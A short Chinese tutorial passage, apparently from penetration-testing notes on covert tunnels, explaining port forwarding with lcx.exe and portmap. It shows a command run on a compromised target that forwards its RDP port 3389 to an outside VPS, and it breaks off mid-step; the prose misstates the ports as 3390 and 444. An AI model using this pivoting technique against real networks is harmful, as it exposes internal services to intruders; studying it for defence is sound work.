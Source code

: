 windows为lcx.exe，linux为portmap。

一个正常的socket隧道必须具备两端：

一个服务端，监听一个端口，等待用户的连接。

一个客户端，通过传入服务端的IP地址和端口，才能主动与服务器连接。

1、内网端口转发
在目标机器上执行如下命令，将目标3390端口的所有数据转发到服务端VPS的444端口上：

```
lcx.exe -slave 服务端IP 4444 127.0.0.1 3389
```

![](./img/隐藏通信隧道基础知识/24.png)

在Vps服务端执行如下命令，将本机的4444端口上监听的所有数据转发到本机的5555端口上：
